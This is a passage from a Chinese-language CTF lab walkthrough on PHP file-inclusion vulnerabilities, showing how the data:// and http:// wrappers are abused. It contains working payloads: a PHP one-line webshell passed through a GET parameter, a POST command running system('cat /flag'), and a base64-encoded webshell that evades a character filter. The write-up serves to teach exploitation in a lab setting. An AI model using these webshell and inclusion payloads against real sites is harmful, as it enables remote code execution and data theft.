 当然要注意，去包含data协议中的内容其实相当于进行了一次远程包含，所以data协议的利用条件需要 `php.ini` 中开启 `allow_url_fopen` 和 `allow_url_include`

题目限定使用data协议：` include("data://text/plain".$_GET['wrappers'])`

本关卡的解法可以用引导中提供的一句话木马(文本和base64两种形式均可)：

**GET:** `?wrappers=,<?php eval($_POST['helloctf']);?>` 然后 **POST:**`helloctf=system('cat /flag');`

>当然您也可以尝试去 `cat flag.php` 这不会执行该部分代码，但是结果可能会以注释的方式添加到当前页面，所以请注意查看源代码。
>
>或者 建议使用 tac —— tac命令与cat命令展示内容相反，用于将文件以行为单位的反序输出，即第一行最后显示，最后一行先显示。

### Level 3 data协议_2

该关卡添加了过滤，但依旧只能使用data协议，观察正则和可用字符：

```php
<?php
$all_chars = array_merge(range(chr(32), chr(126)));

$regex = "/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i";

echo "可用字符: "."\n";
foreach ($all_chars as $char)
{
    if (!preg_match($regex, $char))
    {  
        echo $char." ";
        } 
    } 
    
?>
```

A-Za-z0-9的形式很明显符合Base64标准编码表，所以该关卡使用Base64的输入形式进行Bypass即可,但是要注意，由于 = 和 + 被过滤，在输入Payload的时候要注意不要出现 + 以及即时删除 = 

> 根据base64解码规则和php中base64解码宽松性，= 在解码过程开始前会被移除，所以不会影响解码结果，但是+号作为码表的一部分移除会导致解码不正确，注意分别。

Payload: 

**GET**: `?wrappers=;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`, **POST**:`hell=system('cat /flag');`

### Level 4  http:// & https:// 协议

请先回顾引导区内容：

> http/https 协议 (https://www.php.net/manual/zh/wrappers.http.php) — 常规 URL 形式，允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源，通常用于远程包含。
>
> 注意远程文件需要为可读的文本形式。
>
> 依赖：allow_url_fopen:On;allow_url_include:On;

由于本题提供了现成的文本后门，只需要考虑如何用http去包含即可 —— 127.0.0.1 就行。
